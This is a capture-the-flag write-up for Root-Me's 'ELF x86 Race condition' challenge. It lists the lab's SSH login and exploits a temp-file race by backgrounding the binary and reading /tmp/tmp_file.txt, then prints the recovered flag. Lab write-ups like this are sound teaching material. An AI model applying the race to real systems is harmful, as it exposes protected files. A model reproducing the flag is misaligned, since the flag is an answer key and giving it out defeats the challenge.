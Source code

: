 # ELF x86 - Race condition
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Race-condition
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch12@challenge02.root-me.org  
Username	app-systeme-ch12
Password	app-systeme-ch12
```
According to the source code, the program will create a temporary file with the permissions 444, will open the .passwd file and write it to the temporary file.<br>
Then it will sleep for 0.25 seconds and will delete the temporary file.<br>
So, the basic idea is to run the executable and then (while the executable sleeps) read the temporary file, which is at **/tmp/tmp_file.txt**.

In order of doing so, let's use the linux's "&" operator, which enables running multiple commands concurrently.<br>
After a few tries, one will be able to get the following output:
```sh
app-systeme-ch12@challenge02:~$ ./ch12 & cat /tmp/tmp_file.txt
[5] 32037
cat: /tmp/tmp_file.txt: No such file or directory
[4]   Done                    ./ch12
app-systeme-ch12@challenge02:~$ ./ch12 & cat /tmp/tmp_file.txt
[6] 32039
eh-q8dEa8q19f9aF()"2a96q92
[5]   Done                    ./ch12
```

